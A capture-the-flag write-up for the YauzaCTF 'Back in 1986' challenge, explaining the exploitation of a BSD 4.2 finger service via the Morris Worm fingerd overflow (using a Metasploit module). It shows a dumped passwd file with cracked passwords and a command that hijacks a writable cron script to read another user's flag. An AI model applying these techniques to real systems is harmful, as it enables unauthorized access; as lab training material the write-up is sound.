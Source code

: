 ```yaml
---
description: Morris Worm - fingerd Stack Buffer Overflow and Cron Job misconfiguration
---
```


# Back in 1986 - User

## Description

tcp://tasks.yauzactf.com:79

Falling asleep on a strange bus in summer, young CTF lover Vasya wakes up in 1986... without money and documents, but with the valuable information about the future and the Kali Linux VM on his laptop. Now he works for KGB and his task is to hack into networks of ""Strategic Defense Initiative Organization"" and ultimately change the history of the USSR. Can he deal with old UNIX systems possessing all the knowledge of modern Linux security and binary exploitation?

## Solution

### Foothold

We're only given port 79. With some initial testing, we can confirm that this is the Finger service.

There are a lot of old exploits for this service, and based on the challenge description, this instance is probably vulnerable to one of those old exploits. Furthermore, the name of the root user is "Charlie Root", which is only seen in BSD 4.2, which is the version vulnerable to a [remote buffer overflow](https://www.exploit-db.com/exploits/19039).

```text
➜  ~ finger root@tasks.yauzactf.com
[tasks.yauzactf.com]
Login name: root      			In real life: Charlie Root
Directory: /                        	Shell: /bin/csh
Never logged in.
No Plan.
```

Luckily, there is a Metasploit module for this exploit, which was used by the Morris Worm back in the 1980s.

![](../../.gitbook/assets/screenshot-2021-08-30-at-3.55.33-pm.png)

### Sam User

Once we're in, we notice under `/usr/guest` that there are three users: `sam`, `mckusick` and `karels` \(user directories used to be in `/usr` before the `/home` directory was used\). We could dump the `/etc/passwd` file and crack the hashes \(password shadowing was not yet a thing on BSD 4.2\):

```text
root:NO PASSWORD:0:10:Charlie &:/:/bin/csh
toor:NO PASSWORD:0:10:Bourne-again Superuser:/:
operator:NO PASSWORD:2:28:System &:/usr/guest/operator:/bin/csh
uucp:NO PASSWORD:66:1:UNIX-to-UNIX Copy:/usr/spool/uucppublic:/usr/lib/uucp/uucico
sam:raygun:7:10:& Leffler:/usr/guest/sam:/bin/csh
wnj:wnj12345:8:10:Bill Joy:/usr/guest/wnj:/bin/csh
mckusick:foobar:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:dmac1:10:31:Dennis Ritchie:/usr/guest/dmr:
shannon:hacker:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:...hello:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
ralph:whocares:16:31:& Campbell:/usr/guest/ralph:/bin/csh
eric:ithildin:22:31:& Allman:/usr/guest/eric:/usr/new/csh
ghg:biteme:32:31:George Goble:/usr/guest/ghg:/bin/csh
miriam:lancelot:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:heartbre:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
tef:fatcat:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:noexit:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:fun:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:haring:42:10:& McKie:/usr/guest/jim:/bin/csh
falcon:joshua:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames
```

Using the `sam:raygun` credentials, we can `su` to the `sam` user.

### Karels User

If we look at the `crontab.local` file, we see that a Cron job is run as the `karels` user every minute.

```text
cat /usr/lib/crontab.local
* * * * * karels /usr/guest/sam/cronwatch.sh
```

The `cronwatch.sh` file is in the `sam` user's directory, so we can control the commands that are run.

```text
echo "cp /usr/guest/karels/user_flag.txt /tmp; chmod a=r /tmp/user_flag.txt" > cronwatch.sh
```

After a minute, we are able to read the `user_flag.txt` file.

```text
cat /tmp/user_flag.txt
YauzaCTF{l1k3_gh0st_1n_th3_w1r3s}
```


